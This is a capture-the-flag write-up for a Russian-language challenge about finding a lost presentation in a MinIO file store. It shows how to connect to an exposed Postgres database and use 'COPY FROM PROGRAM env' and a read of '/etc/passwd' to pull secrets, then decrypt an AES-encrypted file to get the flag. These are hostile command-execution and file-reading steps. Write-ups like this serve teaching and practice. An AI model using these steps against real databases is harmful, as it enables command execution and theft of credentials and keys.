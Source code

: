 # Ошибка на миллиард
## Task

[Task link](http://t-s3curestorage-ltrznwe1.spbctf.net/)


Через полчаса квартальный отчет перед акционерами компании. И кто-то по ошибке перекинул презентацию топ-менеджера в неизвестную часть файлохранилища, а ему отправил инструкцию по пожарной безопасности.

Найдите презу, асап!

Файлохранилище: t-s3curestorage-ltrznwe1.spbctf.net/

## Solution

Find opened `9000` port on http://t-s3curestorage-ltrznwe1.spbctf.net.

Find there encrypted files and [app.py](app.py)

So we can decrypt file if we find `APP_ENCRYPTION_KEY` environment.

Find opened postgres, so we already know database credentials, let's connect to it.

```python
conn = psycopg2.connect(
        host="127.0.0.1",
        database="s3curestorage",
        user="s3curestorage",
        password="<masked>")
```

So try to find environments with postgres.
Create table where we will read files.
```sql
create table environments(data text);
```

Load environment variables to this table.

```sql
copy environments(data) from '/etc/passwd';
copy environments from program 'env';
select * from environments;
```

So now we can decrypt arbitraty file from minio.

Get the file we interested in
```bash
$ curl -LO http://t-s3curestorage-ltrznwe1.spbctf.net:9000/s3curestorage/b349b65d-3f7d-4c80-9f75-7347979423cb
```
Also get metadata from headers
```bash
$ curl -i http://t-s3curestorage-ltrznwe1.spbctf.net:9000/s3curestorage/b349b65d-3f7d-4c80-9f75-7347979423cb

HTTP/1.1 200 OK
Accept-Ranges: bytes
Content-Length: 162190
Content-Type: application/octet-stream
ETag: "c2e75b583a5dd3640af696a95efdcab7"
Last-Modified: Mon, 15 Apr 2024 23:19:43 GMT
Server: MinIO
Strict-Transport-Security: max-age=31536000; includeSubDomains
Vary: Origin
Vary: Accept-Encoding
X-Amz-Id-2: dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8
X-Amz-Request-Id: 17C8B46351A45BD2
X-Content-Type-Options: nosniff
X-Xss-Protection: 1; mode=block
x-amz-meta-nonce: wEsEET5P6ULcQGwthElKew==
x-amz-meta-tag: 7Rr900b5TBqcoKj2CsMy4Q==
Date: Mon, 22 Apr 2024 20:33:16 GMT
```

We interested in `x-amz-meta-nonce` and `x-amz-meta-tag`

Decrypt the file

```python
from Crypto.Cipher import AES
import base64

def decrypt_file(nonce, tag, ciphertext, key):
    cipher = AES.new(key, AES.MODE_EAX, nonce)
    plaintext = cipher.decrypt_and_verify(ciphertext, tag)

    return plaintext

nonce = base64.b64decode('wEsEET5P6ULcQGwthElKew==')
tag = base64.b64decode('7Rr900b5TBqcoKj2CsMy4Q==')
APP_ENCRYPTION_KEY='<masked>'
key = APP_ENCRYPTION_KEY.encode()

decrypted_data = decrypt_file(nonce, tag, open('b349b65d-3f7d-4c80-9f75-7347979423cb', 'rb').read(), key)
open('decripted', 'wb').write(decrypted_data)
```

Get the type of the file

```bash
$ file decripted
decripted: Microsoft PowerPoint 2007+
```

I didn't managed to open it on macos, so I unpacked it and grepped.
```bash
$ mv decripted decripted.zip
```

Unpack it
```bash
$ unzip decripted.zip
```

Find the flag in images or just in text.
```bash
$ grep -R tctf .
./ppt/slides/slide2.xml: <trash>tctf{lol_so_secure_much_encrypted}<trash>
```
